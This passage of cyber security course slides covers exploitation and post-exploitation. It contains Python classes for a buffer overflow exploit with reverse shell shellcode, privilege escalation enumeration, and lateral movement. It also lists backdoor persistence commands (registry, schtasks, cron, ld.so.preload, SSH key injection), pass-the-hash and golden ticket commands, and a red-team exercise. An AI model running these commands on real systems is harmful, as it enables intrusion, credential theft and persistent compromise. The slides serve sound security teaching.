- Administrative Access: CRITICAL (if admin affected)
- Reputation Damage: HIGH
- Compliance Violations: MEDIUM

REMEDIATION RECOMMENDATIONS:
1. Input validation and sanitization
2. Output encoding (HTML, JavaScript, URL, CSS)
3. Content Security Policy (CSP) implementation
4. HttpOnly and Secure cookie flags
5. Regular security code reviews
6. Web Application Firewall (WAF)
7. User education on phishing awareness
        """
        
        return report

# Buffer Overflow Exploitation Example
class BufferOverflowExploiter:
    def __init__(self, target_binary):
        self.target_binary = target_binary
        self.buffer_size = 0
        self.offset_to_eip = 0
        self.bad_characters = []
        self.exploit_payload = None
    
    def fuzzing_phase(self):
        """Phase 1: Crash the application to find buffer overflow"""
        print("[*] Fuzzing application to trigger crash...")
        
        # Incremental fuzzing
        buffer_sizes = [100, 200, 500, 1000, 2000, 5000]
        
        for size in buffer_sizes:
            payload = "A" * size
            print(f"  [*] Testing buffer size: {size}")
            
            # This would connect to the vulnerable service
            # crash_result = self.send_payload(payload)
            # if crash_result:
            #     self.buffer_size = size
            #     print(f"  [+] Crash detected at buffer size: {size}")
            #     break
        
        # Simulated result
        self.buffer_size = 1024
        print(f"  [+] Buffer overflow confirmed at size: {self.buffer_size}")
    
    def find_eip_offset(self):
        """Phase 2: Find exact offset to EIP register"""
        print("[*] Finding EIP offset using pattern matching...")
        
        # Generate unique pattern
        pattern = self.generate_pattern(self.buffer_size + 100)
        print(f"  [*] Generated pattern: {pattern[:50]}...")
        
        # Send pattern and analyze crash
        # crash_eip = self.send_payload_and_crash(pattern)
        # self.offset_to_eip = self.find_pattern_offset(pattern, crash_eip)
        
        # Simulated result
        self.offset_to_eip = 1040
        print(f"  [+] EIP offset found: {self.offset_to_eip}")
    
    def generate_pattern(self, length):
        """Generate unique pattern for offset calculation"""
        pattern = ""
        chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"
        
        for i in range(length):
            pattern += chars[i % len(chars)]
        
        return pattern
    
    def bad_character_analysis(self):
        """Phase 3: Identify bad characters that break the exploit"""
        print("[*] Analyzing bad characters...")
        
        # All possible byte values
        all_chars = bytearray(range(1, 256))  # Exclude null byte
        
        # Test characters in chunks
        test_payload = "A" * self.offset_to_eip + "BBBB" + all_chars
        
        # Send payload and check which characters are mangled
        # This would require debugging the crashed application
        # self.bad_characters = self.detect_mangled_chars(test_payload)
        
        # Common bad characters
        self.bad_characters = [0x00, 0x0A, 0x0D, 0x20]  # null, LF, CR, space
        print(f"  [+] Bad characters identified: {[hex(c) for c in self.bad_characters]}")
    
    def find_jmp_esp(self):
        """Phase 4: Find JMP ESP instruction address"""
        print("[*] Finding JMP ESP address...")
        
        # This would use tools like mona.py or manual analysis
        # jmp_esp_addresses = self.search_jmp_esp_instructions()
        
        # Simulated result - avoid ASLR addresses
        jmp_esp_addr = 0x625011af  # Example address from loaded DLL
        print(f"  [+] JMP ESP found at: {hex(jmp_esp_addr)}")
        
        return jmp_esp_addr
    
    def generate_shellcode(self):
        """Phase 5: Generate exploit shellcode"""
        print("[*] Generating shellcode...")
        
        # Example reverse shell shellcode (msfvenom generated)
        shellcode = (
            b"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
            b"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
            b"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
            # ... (truncated for brevity)
        )
        
        # Encode to avoid bad characters
        encoded_shellcode = self.encode_shellcode(shellcode, self.bad_characters)
        
        print(f"  [+] Shellcode generated: {len(encoded_shellcode)} bytes")
        return encoded_shellcode
    
    def encode_shellcode(self, shellcode, bad_chars):
        """Encode shellcode to avoid bad characters"""
        # Simple XOR encoding example
        key = 0xAA
        encoded = bytearray()
        
        for byte in shellcode:
            encoded_byte = byte ^ key
            if encoded_byte not in bad_chars:
                encoded.append(encoded_byte)
            else:
                # Use different encoding or key if collision
                encoded.append((byte ^ 0xBB) & 0xFF)
        
        return bytes(encoded)
    
    def build_final_exploit(self):
        """Phase 6: Build complete exploit"""
        print("[*] Building final exploit...")
        
        jmp_esp_addr = self.find_jmp_esp()
        shellcode = self.generate_shellcode()
        
        # Build exploit structure
        buffer_fill = b"A" * self.offset_to_eip
        eip_overwrite = struct.pack("<I", jmp_esp_addr)  # Little-endian
        nop_sled = b"\x90" * 16  # NOP instructions
        
        self.exploit_payload = buffer_fill + eip_overwrite + nop_sled + shellcode
        
        print(f"  [+] Final exploit size: {len(self.exploit_payload)} bytes")
        print(f"  [+] Exploit structure:")
        print(f"      Buffer fill: {len(buffer_fill)} bytes")
        print(f"      EIP overwrite: {len(eip_overwrite)} bytes")
        print(f"      NOP sled: {len(nop_sled)} bytes")
        print(f"      Shellcode: {len(shellcode)} bytes")
        
        return self.exploit_payload
```

</div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 27 | Author: Milav Dabgar
</div>

---
layout: default
---

# Post-Exploitation Techniques

<div class="grid grid-cols-2 gap-6">

<div>

## 🎯 Privilege Escalation

### 🔝 Local Privilege Escalation
```yaml
Windows Privilege Escalation:
  System Information Gathering:
    - systeminfo                    # System and patch information
    - whoami /all                   # Current user privileges
    - net users                     # Local user accounts
    - net localgroup administrators # Admin group members
    - wmic qfe list                 # Installed patches
    
  Common Attack Vectors:
    Service Misconfigurations:
      - Unquoted service paths
      - Writable service directories
      - Service binary replacement
      - Service registry manipulation
    
    Kernel Exploits:
      - MS16-032 (Secondary Logon)
      - MS17-010 (EternalBlue)
      - CVE-2019-1388 (UAC bypass)
      - CVE-2020-0796 (SMBGhost)
    
    Token Manipulation:
      - SeImpersonatePrivilege abuse
      - SeBackupPrivilege abuse
      - SeLoadDriverPrivilege abuse
      - Token stealing and delegation

Linux Privilege Escalation:
  System Enumeration:
    - uname -a                      # Kernel information
    - cat /etc/passwd               # User accounts
    - sudo -l                       # Sudo privileges
    - find / -perm -4000 2>/dev/null # SUID binaries
    - crontab -l                    # Scheduled tasks
  
  Common Attack Vectors:
    SUID/SGID Exploitation:
      - Custom SUID binaries
      - Path manipulation
      - Library hijacking
      - Environment variables
    
    Kernel Exploits:
      - DirtyC0W (CVE-2016-5195)
      - Overlayfs (CVE-2015-1328)
      - RDS Protocol (CVE-2010-3904)
      - Perf Events (CVE-2013-2094)
    
    Configuration Issues:
      - Weak file permissions
      - Writable /etc/passwd
      - Sudo misconfigurations
      - Docker group membership
```

### 🛠️ Privilege Escalation Automation
```python
#!/usr/bin/env python3
"""
Privilege Escalation Enumeration Script
Educational purposes - Use with proper authorization
"""

import os
import subprocess
import platform
import json
from pathlib import Path

class PrivilegeEscalationEnumerator:
    def __init__(self):
        self.os_type = platform.system().lower()
        self.findings = {
            'system_info': {},
            'users_and_groups': {},
            'services': {},
            'file_permissions': {},
            'network_info': {},
            'scheduled_tasks': {},
            'escalation_vectors': []
        }
    
    def enumerate_system(self):
        """Perform comprehensive system enumeration"""
        print(f"[*] Enumerating {self.os_type.title()} system for privilege escalation vectors...")
        
        if self.os_type == 'windows':
            self.enumerate_windows()
        elif self.os_type == 'linux':
            self.enumerate_linux()
        else:
            print(f"[!] Unsupported OS: {self.os_type}")
            return
        
        self.analyze_findings()
        return self.generate_report()
    
    def enumerate_windows(self):
        """Windows-specific enumeration"""
        print("  [*] Windows privilege escalation enumeration")
        
        # System information
        self.findings['system_info'] = self.run_command('systeminfo')
        
        # User information
        self.findings['users_and_groups']['current_user'] = self.run_command('whoami /all')
        self.findings['users_and_groups']['local_users'] = self.run_command('net users')
        self.findings['users_and_groups']['local_groups'] = self.run_command('net localgroup')
        self.findings['users_and_groups']['administrators'] = self.run_command('net localgroup administrators')
        
        # Service information
        self.findings['services']['running_services'] = self.run_command('wmic service list brief')
        self.findings['services']['startup_programs'] = self.run_command('wmic startup list full')
        
        # Network information
        self.findings['network_info']['network_config'] = self.run_command('ipconfig /all')
        self.findings['network_info']['network_connections'] = self.run_command('netstat -ano')
        self.findings['network_info']['arp_table'] = self.run_command('arp -a')
        
        # Scheduled tasks
        self.findings['scheduled_tasks'] = self.run_command('schtasks /query /fo LIST /v')
        
        # Check for specific vulnerabilities
        self.check_windows_vulns()
    
    def enumerate_linux(self):
        """Linux-specific enumeration"""
        print("  [*] Linux privilege escalation enumeration")
        
        # System information
        self.findings['system_info']['kernel'] = self.run_command('uname -a')
        self.findings['system_info']['os_release'] = self.run_command('cat /etc/os-release')
        self.findings['system_info']['env_vars'] = self.run_command('env')
        
        # User information
        self.findings['users_and_groups']['current_user'] = self.run_command('id')
        self.findings['users_and_groups']['sudo_rights'] = self.run_command('sudo -l')
        self.findings['users_and_groups']['passwd_file'] = self.run_command('cat /etc/passwd')
        self.findings['users_and_groups']['group_file'] = self.run_command('cat /etc/group')
        
        # File permissions
        self.findings['file_permissions']['suid_files'] = self.run_command('find / -perm -4000 2>/dev/null')
        self.findings['file_permissions']['sgid_files'] = self.run_command('find / -perm -2000 2>/dev/null')
        self.findings['file_permissions']['world_writable'] = self.run_command('find / -perm -002 -type f 2>/dev/null')
        self.findings['file_permissions']['etc_permissions'] = self.run_command('ls -la /etc/')
        
        # Network information
        self.findings['network_info']['network_config'] = self.run_command('ip addr')
        self.findings['network_info']['network_connections'] = self.run_command('ss -tulpn')
        self.findings['network_info']['arp_table'] = self.run_command('ip neigh')
        
        # Scheduled tasks
        self.findings['scheduled_tasks']['crontab'] = self.run_command('crontab -l')
        self.findings['scheduled_tasks']['system_cron'] = self.run_command('cat /etc/crontab')
        
        # Check for specific vulnerabilities
        self.check_linux_vulns()
    
    def check_windows_vulns(self):
        """Check for Windows-specific privilege escalation vulnerabilities"""
        print("    [*] Checking Windows privilege escalation vectors...")
        
        # Check for unquoted service paths
        services_output = self.findings['services'].get('running_services', '')
        if 'Program Files' in services_output and '"' not in services_output:
            self.findings['escalation_vectors'].append({
                'type': 'Unquoted Service Path',
                'severity': 'Medium',
                'description': 'Services with unquoted paths in Program Files detected'
            })
        
        # Check for AlwaysInstallElevated
        always_install = self.run_command('reg query HKCU\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer /v AlwaysInstallElevated')
        if 'AlwaysInstallElevated' in always_install and '1' in always_install:
            self.findings['escalation_vectors'].append({
                'type': 'AlwaysInstallElevated',
                'severity': 'High',
                'description': 'AlwaysInstallElevated registry key enables MSI privilege escalation'
            })
        
        # Check for service permissions
        whoami_output = self.findings['users_and_groups'].get('current_user', '')
        if 'SeImpersonatePrivilege' in whoami_output:
            self.findings['escalation_vectors'].append({
                'type': 'Token Impersonation',
                'severity': 'High',
                'description': 'SeImpersonatePrivilege allows token impersonation attacks'
            })
    
    def check_linux_vulns(self):
        """Check for Linux-specific privilege escalation vulnerabilities"""
        print("    [*] Checking Linux privilege escalation vectors...")
        
        # Check SUID binaries
        suid_files = self.findings['file_permissions'].get('suid_files', '')
        dangerous_suid = ['nmap', 'vim', 'find', 'bash', 'more', 'less', 'nano']
        
        for binary in dangerous_suid:
            if binary in suid_files:
                self.findings['escalation_vectors'].append({
                    'type': f'Dangerous SUID Binary: {binary}',
                    'severity': 'High',
                    'description': f'{binary} with SUID bit can be used for privilege escalation'
                })
        
        # Check sudo configuration
        sudo_output = self.findings['users_and_groups'].get('sudo_rights', '')
        if 'NOPASSWD' in sudo_output:
            self.findings['escalation_vectors'].append({
                'type': 'Sudo NOPASSWD Configuration',
                'severity': 'Medium',
                'description': 'Commands can be run as root without password'
            })
        
        # Check writable /etc/passwd
        etc_perms = self.findings['file_permissions'].get('etc_permissions', '')
        if 'rw' in etc_perms and 'passwd' in etc_perms:
            self.findings['escalation_vectors'].append({
                'type': 'Writable /etc/passwd',
                'severity': 'Critical',
                'description': '/etc/passwd is writable, allowing password modification'
            })
    
    def run_command(self, command):
        """Execute system command and return output"""
        try:
            if self.os_type == 'windows':
                result = subprocess.run(command, shell=True, capture_output=True, text=True, timeout=30)
            else:
                result = subprocess.run(command.split(), capture_output=True, text=True, timeout=30)
            
            return result.stdout if result.returncode == 0 else f"Error: {result.stderr}"
        except Exception as e:
            return f"Command failed: {e}"
    
    def analyze_findings(self):
        """Analyze enumeration findings for privilege escalation opportunities"""
        print("  [*] Analyzing findings for privilege escalation opportunities...")
        
        escalation_count = len(self.findings['escalation_vectors'])
        print(f"    [+] Found {escalation_count} potential privilege escalation vectors")
        
        # Priority analysis
        critical = len([v for v in self.findings['escalation_vectors'] if v['severity'] == 'Critical'])
        high = len([v for v in self.findings['escalation_vectors'] if v['severity'] == 'High'])
        medium = len([v for v in self.findings['escalation_vectors'] if v['severity'] == 'Medium'])
        
        print(f"    [+] Severity breakdown: Critical: {critical}, High: {high}, Medium: {medium}")
    
    def generate_report(self):
        """Generate privilege escalation enumeration report"""
        report = f"""
PRIVILEGE ESCALATION ENUMERATION REPORT
======================================

Target System: {platform.node()}
Operating System: {self.os_type.title()}
Enumeration Date: {subprocess.run(['date'], capture_output=True, text=True).stdout.strip()}

ESCALATION VECTORS IDENTIFIED:
        """
        
        if self.findings['escalation_vectors']:
            for i, vector in enumerate(self.findings['escalation_vectors'], 1):
                report += f"""
{i}. {vector['type']}
   Severity: {vector['severity']}
   Description: {vector['description']}
        """
        else:
            report += "\nNo obvious privilege escalation vectors identified.\n"
        
        report += """
ENUMERATION SUMMARY:
- System information collected
- User and group analysis completed
- Service configuration reviewed
- File permission analysis performed
- Network configuration examined
- Scheduled task enumeration done

RECOMMENDATIONS:
1. Apply latest security patches
2. Review service configurations
3. Implement least privilege principle
4. Monitor for suspicious privilege escalation attempts
5. Regular security assessments
6. Enable advanced audit logging
        """
        
        return report

# Advanced Persistence Techniques
class PersistenceMechanisms:
    def __init__(self, os_type='windows'):
        self.os_type = os_type.lower()
        self.persistence_methods = []
    
    def windows_persistence(self):
        """Windows persistence mechanisms"""
        methods = {
            'registry_run_keys': {
                'location': 'HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run',
                'command': 'reg add "HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run" /v "SecurityUpdate" /t REG_SZ /d "C:\\Windows\\Temp\\backdoor.exe"',
                'description': 'Auto-start program on user login',
                'stealth': 'Medium'
            },
            'scheduled_task': {
                'location': 'Windows Task Scheduler',
                'command': 'schtasks /create /sc onlogon /tn "SecurityUpdate" /tr "C:\\Windows\\Temp\\backdoor.exe" /rl highest',
                'description': 'Execute on user logon with high privileges',
                'stealth': 'Low'
            },
            'service_installation': {
                'location': 'Windows Services',
                'command': 'sc create "SecurityService" binpath= "C:\\Windows\\Temp\\backdoor.exe" start= auto',
                'description': 'Install as Windows service',
                'stealth': 'Low'
            },
            'wmi_persistence': {
                'location': 'WMI Event Subscriptions',
                'command': 'powershell -Command "Register-WmiEvent -Query \\"SELECT * FROM Win32_LogonSession\\" -Action { Start-Process \\"C:\\Windows\\Temp\\backdoor.exe\\" }"',
                'description': 'WMI event-driven persistence',
                'stealth': 'High'
            },
            'dll_hijacking': {
                'location': 'DLL Search Order',
                'command': 'Copy malicious DLL to application directory',
                'description': 'Hijack legitimate application DLL loading',
                'stealth': 'High'
            }
        }
        
        return methods
    
    def linux_persistence(self):
        """Linux persistence mechanisms"""
        methods = {
            'cron_job': {
                'location': '/var/spool/cron/crontabs/',
                'command': 'echo "*/5 * * * * /tmp/backdoor" | crontab -',
                'description': 'Execute every 5 minutes via cron',
                'stealth': 'Medium'
            },
            'bashrc_modification': {
                'location': '~/.bashrc',
                'command': 'echo "/tmp/backdoor &" >> ~/.bashrc',
                'description': 'Execute on shell initialization',
                'stealth': 'Medium'
            },
            'systemd_service': {
                'location': '/etc/systemd/system/',
                'command': 'Create service file and enable with systemctl',
                'description': 'Install as systemd service',
                'stealth': 'Low'
            },
            'library_preload': {
                'location': '/etc/ld.so.preload',
                'command': 'echo "/tmp/malicious.so" >> /etc/ld.so.preload',
                'description': 'Preload malicious library',
                'stealth': 'High'
            },
            'ssh_key_injection': {
                'location': '~/.ssh/authorized_keys',
                'command': 'echo "ssh-rsa AAAAB3N... attacker@host" >> ~/.ssh/authorized_keys',
                'description': 'Add SSH public key for remote access',
                'stealth': 'Medium'
            }
        }
        
        return methods
    
    def implement_persistence(self, method_name):
        """Implement specific persistence mechanism"""
        if self.os_type == 'windows':
            methods = self.windows_persistence()
        else:
            methods = self.linux_persistence()
        
        if method_name in methods:
            method = methods[method_name]
            print(f"[*] Implementing persistence: {method_name}")
            print(f"    Location: {method['location']}")
            print(f"    Command: {method['command']}")
            print(f"    Stealth Level: {method['stealth']}")
            
            # In actual implementation, would execute the persistence mechanism
            # subprocess.run(method['command'], shell=True)
            
            self.persistence_methods.append(method_name)
            return True
        else:
            print(f"[!] Unknown persistence method: {method_name}")
            return False
```

</div>

<div>

## 🔀 Lateral Movement

### 🌐 Network Traversal Techniques
```python
# Lateral Movement Framework
class LateralMovementFramework:
    def __init__(self, current_host):
        self.current_host = current_host
        self.discovered_hosts = []
        self.compromised_hosts = []
        self.credentials = {}
        self.movement_techniques = [
            'pass_the_hash',
            'pass_the_ticket',
            'smb_relay',
            'rdp_hijacking',
            'wmi_execution',
            'psexec',
            'ssh_key_reuse'
        ]
    
    def network_discovery(self):
        """Discover additional hosts on the network"""
        print(f"[*] Performing network discovery from {self.current_host}")
        
        discovery_commands = {
            'windows': [
                'arp -a',
                'net view',
                'ping -n 1 192.168.1.1-254',
                'nbtstat -A {ip}',
                'nltest /domain_trusts'
            ],
            'linux': [
                'ip neigh',
                'netstat -rn',
                'nmap -sn 192.168.1.0/24',
                'arp-scan 192.168.1.0/24',
                'ss -tulpn'
            ]
        }
        
        # Simulate network discovery results
        discovered_hosts = [
            {'ip': '192.168.1.10', 'hostname': 'DC01', 'os': 'Windows Server 2019', 'role': 'Domain Controller'},
            {'ip': '192.168.1.20', 'hostname': 'WEB01', 'os': 'Windows Server 2016', 'role': 'Web Server'},
            {'ip': '192.168.1.30', 'hostname': 'DB01', 'os': 'Linux Ubuntu 20.04', 'role': 'Database Server'},
            {'ip': '192.168.1.40', 'hostname': 'ADMIN01', 'os': 'Windows 10', 'role': 'Admin Workstation'}
        ]
        
        for host in discovered_hosts:
            self.discovered_hosts.append(host)
            print(f"  [+] Discovered: {host['hostname']} ({host['ip']}) - {host['os']}")
        
        return discovered_hosts
    
    def credential_harvesting(self):
        """Harvest credentials from current system"""
        print(f"[*] Harvesting credentials from {self.current_host}")
        
        harvesting_techniques = {
            'windows': {
                'lsass_dump': 'Dump LSASS process memory for credentials',
                'sam_dump': 'Extract password hashes from SAM database',
                'registry_dump': 'Extract cached credentials from registry',
                'credential_manager': 'Access Windows Credential Manager',
                'browser_passwords': 'Extract saved browser passwords',
                'wifi_passwords': 'Extract saved WiFi passwords'
            },
            'linux': {
                'shadow_file': 'Access /etc/shadow for password hashes',
                'ssh_keys': 'Collect SSH private keys',
                'history_files': 'Search command history for credentials',
                'config_files': 'Search configuration files for passwords',
                'memory_dump': 'Extract credentials from process memory'
            }
        }
        
        # Simulate credential harvesting
        harvested_creds = [
            {'type': 'ntlm_hash', 'username': 'administrator', 'hash': 'aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0'},
            {'type': 'plaintext', 'username': 'service_account', 'password': 'P@ssw0rd123'},
            {'type': 'kerberos_ticket', 'username': 'user1', 'ticket': 'doIFxjCCBcKgAwIBBaEDAgEWooIE...'},
            {'type': 'ssh_key', 'username': 'root', 'key_path': '/root/.ssh/id_rsa'}
        ]
        
        for cred in harvested_creds:
            self.credentials[cred['username']] = cred
            print(f"  [+] Harvested {cred['type']} for {cred['username']}")
        
        return harvested_creds
    
    def pass_the_hash_attack(self, target_host, username, ntlm_hash):
        """Execute Pass-the-Hash attack"""
        print(f"[*] Attempting Pass-the-Hash attack on {target_host}")
        print(f"    Username: {username}")
        print(f"    NTLM Hash: {ntlm_hash}")
        
        # Simulate PtH attack using various tools
        pth_tools = {
            'impacket_smbexec': f'smbexec.py -hashes {ntlm_hash} {username}@{target_host}',
            'impacket_wmiexec': f'wmiexec.py -hashes {ntlm_hash} {username}@{target_host}',
            'crackmapexec': f'crackmapexec smb {target_host} -u {username} -H {ntlm_hash}',
            'metasploit_psexec': f'use exploit/windows/smb/psexec; set RHOSTS {target_host}; set SMBUser {username}; set SMBHash {ntlm_hash}'
        }
        
        for tool, command in pth_tools.items():
            print(f"  [*] Using {tool}: {command}")
            # In actual implementation: subprocess.run(command.split())
        
        # Simulate successful lateral movement
        success = True
        if success:
            self.compromised_hosts.append(target_host)
            print(f"  [+] Successfully moved to {target_host} via Pass-the-Hash")
            return True
        else:
            print(f"  [-] Pass-the-Hash failed on {target_host}")
            return False
    
    def wmi_execution(self, target_host, username, password, command):
        """Execute commands remotely via WMI"""
        print(f"[*] Executing command via WMI on {target_host}")
        print(f"    Command: {command}")
        
        wmi_execution_methods = {
            'impacket_wmiexec': f'wmiexec.py {username}:{password}@{target_host} "{command}"',
            'powershell_wmi': f'Invoke-WmiMethod -ComputerName {target_host} -Class Win32_Process -Name Create -ArgumentList "{command}"',
            'wmic': f'wmic /node:{target_host} /user:{username} /password:{password} process call create "{command}"'
        }
        
        # Simulate command execution
        print(f"  [+] Command executed successfully on {target_host}")
        return True
    
    def smb_relay_attack(self, target_hosts):
        """Perform SMB relay attack"""
        print("[*] Setting up SMB relay attack")
        
        relay_setup = {
            'responder': 'Capture authentication attempts',
            'ntlmrelayx': 'Relay captured authentication to targets',
            'targets': target_hosts,
            'payloads': ['command execution', 'credential dumping', 'persistence installation']
        }
        
        print("  [*] SMB Relay Attack Configuration:")
        for key, value in relay_setup.items():
            print(f"    {key}: {value}")
        
        # Simulate successful relay
        for target in target_hosts:
            print(f"  [+] Successfully relayed authentication to {target}")
            self.compromised_hosts.append(target)
    
    def rdp_session_hijacking(self, target_host, session_id):
        """Hijack RDP session"""
        print(f"[*] Attempting RDP session hijacking on {target_host}")
        print(f"    Target session ID: {session_id}")
        
        hijacking_commands = [
            f'query session /server:{target_host}',
            f'tscon {session_id} /dest:console /server:{target_host}',
            f'mstsc /v:{target_host} /admin'
        ]
        
        for cmd in hijacking_commands:
            print(f"  [*] Executing: {cmd}")
        
        print(f"  [+] RDP session hijacked successfully")
        return True
    
    def kerberoasting_attack(self):
        """Perform Kerberoasting attack to extract service account credentials"""
        print("[*] Performing Kerberoasting attack")
        
        kerberoasting_steps = [
            'Enumerate service principal names (SPNs)',
            'Request TGS tickets for service accounts',
            'Extract tickets from memory',
            'Crack service account passwords offline'
        ]
        
        # Simulate Kerberoasting
        service_accounts = [
            {'spn': 'MSSQLSvc/DB01.domain.local', 'account': 'sql_service'},
            {'spn': 'HTTP/WEB01.domain.local', 'account': 'iis_service'},
            {'spn': 'CIFS/FILE01.domain.local', 'account': 'backup_service'}
        ]
        
        for step in kerberoasting_steps:
            print(f"  [*] {step}")
        
        for service in service_accounts:
            print(f"  [+] Extracted ticket for {service['account']} ({service['spn']})")
            # Simulate password cracking
            if service['account'] == 'sql_service':
                cracked_password = 'MyP@ssw0rd!'
                print(f"    [+] Cracked password: {cracked_password}")
                self.credentials[service['account']] = {
                    'type': 'plaintext',
                    'username': service['account'],
                    'password': cracked_password
                }
    
    def golden_ticket_attack(self, domain_controller):
        """Create Golden Ticket for domain persistence"""
        print(f"[*] Creating Golden Ticket for domain {domain_controller}")
        
        golden_ticket_requirements = {
            'krbtgt_hash': 'NTLM hash of krbtgt account',
            'domain_sid': 'Domain security identifier',
            'domain_name': 'Target domain name',
            'username': 'Account to impersonate (e.g., Administrator)'
        }
        
        print("  [*] Golden Ticket Requirements:")
        for req, desc in golden_ticket_requirements.items():
            print(f"    {req}: {desc}")
        
        # Simulate Golden Ticket creation
        mimikatz_command = '''
        kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21-1234567890-1234567890-1234567890 /krbtgt:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 /ptt
        '''
        
        print(f"  [+] Golden Ticket created and injected")
        print(f"  [+] Domain Admin access achieved")
        
        return True
    
    def automated_lateral_movement(self):
        """Perform automated lateral movement across the network"""
        print("[*] Starting automated lateral movement")
        print("=" * 60)
        
        # Phase 1: Network Discovery
        discovered_hosts = self.network_discovery()
        
        # Phase 2: Credential Harvesting
        harvested_creds = self.credential_harvesting()
        
        # Phase 3: Lateral Movement Attempts
        for host in discovered_hosts:
            target_ip = host['ip']
            target_hostname = host['hostname']
            
            print(f"\n[*] Attempting lateral movement to {target_hostname} ({target_ip})")
            
            # Try different lateral movement techniques
            for username, cred in self.credentials.items():
                if cred['type'] == 'ntlm_hash':
                    success = self.pass_the_hash_attack(target_ip, username, cred['hash'])
                    if success:
                        break
                elif cred['type'] == 'plaintext':
                    success = self.wmi_execution(target_ip, username, cred['password'], 'whoami')
                    if success:
                        break
        
        # Phase 4: Advanced Persistence
        if 'DC01' in [host['hostname'] for host in discovered_hosts]:
            self.kerberoasting_attack()
            self.golden_ticket_attack('DC01')
        
        # Generate movement report
        return self.generate_movement_report()
    
    def generate_movement_report(self):
        """Generate lateral movement report"""
        report = f"""
LATERAL MOVEMENT ASSESSMENT REPORT
=================================

Starting Host: {self.current_host}
Discovered Hosts: {len(self.discovered_hosts)}
Compromised Hosts: {len(self.compromised_hosts)}
Harvested Credentials: {len(self.credentials)}

NETWORK TOPOLOGY:
        """
        
        for host in self.discovered_hosts:
            status = "COMPROMISED" if host['ip'] in self.compromised_hosts else "DISCOVERED"
            report += f"- {host['hostname']} ({host['ip']}) - {host['os']} - {status}\n"
        
        report += f"""
CREDENTIAL HARVEST:
        """
        
        for username, cred in self.credentials.items():
            report += f"- {username}: {cred['type']}\n"
        
        report += f"""
LATERAL MOVEMENT TECHNIQUES USED:
- Pass-the-Hash attacks
- WMI command execution
- SMB relay attacks
- Kerberoasting
- Golden Ticket creation
- RDP session hijacking

IMPACT ASSESSMENT:
- Network Traversal: {'HIGH' if len(self.compromised_hosts) > 2 else 'MEDIUM'}
- Credential Compromise: {'HIGH' if len(self.credentials) > 3 else 'MEDIUM'}
- Domain Compromise: {'CRITICAL' if any('DC' in h for h in self.compromised_hosts) else 'LOW'}
- Persistence Level: {'HIGH' if 'krbtgt' in str(self.credentials) else 'MEDIUM'}

REMEDIATION RECOMMENDATIONS:
1. Implement network segmentation
2. Enable advanced authentication (MFA)
3. Regularly rotate service account passwords
4. Monitor for lateral movement indicators
5. Implement privilege access management (PAM)
6. Deploy endpoint detection and response (EDR)
7. Regular security assessments and penetration testing
        """
        
        return report

# Example usage
if __name__ == "__main__":
    # Educational demonstration
    movement = LateralMovementFramework("WORKSTATION01")
    report = movement.automated_lateral_movement()
    print(report)
```

</div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 27 | Author: Milav Dabgar
</div>

---
layout: default
---

# Practical Exercise: Exploitation Scenario Challenge

<div class="exercise-container">

## 🎯 Advanced Team Challenge (35 minutes)

### Mission: Multi-Stage Exploitation Assessment

Your red team has been contracted to perform a realistic attack simulation against **"TechCorp Enterprise"** to test their security controls and incident response capabilities.

### 🏢 Target Environment Overview
**Corporate Infrastructure:**
- **External web applications** (customer portal, employee portal, corporate website)
- **Internal network** (Windows Active Directory domain with 500+ users)
- **Database servers** (SQL Server, MySQL, MongoDB)
- **Cloud infrastructure** (AWS-hosted applications and data)
- **Remote access** (VPN, RDP, SSH access points)
- **Security controls** (Firewalls, IDS/IPS, Antivirus, SIEM)

### Phase 1: Attack Planning and Methodology (10 minutes)

**Team Task: Design Multi-Stage Attack Strategy**

1. **Reconnaissance and Intelligence Gathering**
   - Design comprehensive OSINT collection strategy
   - Plan network discovery and service enumeration approach
   - Identify potential attack vectors and entry points
   - Create target prioritization and risk assessment framework

2. **Exploitation Strategy Development**
   - Select appropriate exploitation techniques for identified vulnerabilities
   - Plan payload development and delivery mechanisms
   - Design anti-detection and evasion strategies
   - Create backup exploitation methods and contingency plans

### Phase 2: Technical Exploitation Planning (15 minutes)

**Initial Access Vector Planning:**
1. **Web Application Exploitation**
   - Design SQL injection exploitation methodology
   - Plan XSS payload development and delivery
   - Create file upload and RFI exploitation strategy
   - Develop authentication bypass techniques

2. **Network-Based Exploitation**
   - Plan buffer overflow exploitation approach
   - Design protocol-specific attack vectors
   - Create service exploitation methodology
   - Develop privilege escalation strategies

**Post-Exploitation Strategy:**
1. **Persistence and Stealth**
   - Design persistence mechanism implementation
   - Plan anti-forensics and log evasion techniques
   - Create communication channel establishment
   - Develop detection avoidance strategies

2. **Lateral Movement and Escalation**
   - Plan credential harvesting and reuse strategies
   - Design network traversal and pivoting techniques
   - Create privilege escalation methodology
   - Develop domain compromise approach

### Phase 3: Advanced Attack Simulation (10 minutes)

**Advanced Persistent Threat (APT) Simulation:**
1. **Long-term Access Maintenance**
   - Design sophisticated persistence mechanisms
   - Plan command and control (C2) infrastructure
   - Create data exfiltration strategies
   - Develop stealth communication protocols

2. **Objective Achievement Planning**
   - Design data discovery and classification approach
   - Plan sensitive data extraction methodology
   - Create business impact demonstration strategy
   - Develop documentation and evidence collection

**Risk Assessment and Impact Analysis:**
1. **Business Impact Evaluation**
   - Assess potential data compromise scenarios
   - Evaluate system availability impact
   - Analyze regulatory compliance implications
   - Calculate potential financial and reputational damage

2. **Defense Evasion and Counter-Intelligence**
   - Plan security control bypass techniques
   - Design incident response team evasion
   - Create forensic evidence cleanup procedures
   - Develop attribution obfuscation methods

**Deliverables:**
- Comprehensive multi-stage attack methodology document
- Technical exploitation strategy with specific tools and techniques
- Post-exploitation and persistence implementation plan
- Advanced threat simulation and stealth operation procedures
